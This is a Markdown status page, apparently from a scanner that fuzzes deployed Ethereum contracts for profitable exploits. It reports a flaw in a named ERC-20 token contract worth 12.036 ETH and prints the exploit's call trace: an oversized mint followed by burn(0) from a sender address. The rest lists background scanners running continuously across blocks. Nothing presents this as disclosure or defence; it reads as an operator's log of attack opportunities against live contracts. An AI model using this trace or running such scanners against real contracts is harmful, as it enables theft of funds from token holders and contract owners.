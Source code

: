 # MEV Scanner - LIVE STATUS

## 🚨 VULNERABILITY FOUND!

**Contract**: BEGO (0x68Cc90351a79A4c10078FE021bE430b7a12aaA09)  
**Profit**: 12.036 ETH  
**Block**: 22315679  
**Detector**: erc20  

### Exploit Details:
```
[Sender] 0xe1A425f1AC34A8a441566f93c82dD730639c8510
   ├─[1] 0xc342774492b54ce5F8ac662113ED702Fc1b34972.mint(4951767240.7092 ether, 0x060968186804e803ff86, 0x68Dd4F5AC792eAaa5e36f4f4e0474E0625dc9024, (), (), ())
   └─[1] 0xc342774492b54ce5F8ac662113ED702Fc1b34972.burn(0)
```

## 🔄 Running Processes

1. **Universal Contract Fuzzer** - Scanning all blocks
2. **Proven MEV Scanner** - Testing BEGO and recent contracts
3. **Continuous Scanner** - Running in background, checks every 5 minutes

## 📊 Current Statistics

- **Work directories**: 38
- **Total logs**: 65
- **Vulnerabilities found**: 1
- **Total MEV potential**: 12.036 ETH

## 📁 Key Files

- Vulnerability log: `mev/vulnerability_logs/0x68Cc90351a79A4c10078FE021bE430b7a12aaA09_erc20_1754469537.log`
- Work directory: `mev/work_dirs/0x68Cc90351a79A4c10078FE021bE430b7a12aaA09_erc20_22315679_1754469537/`
- Continuous log: `mev/continuous_scanner.log`

## ✅ System Status

All scanners are RUNNING and actively searching for vulnerabilities!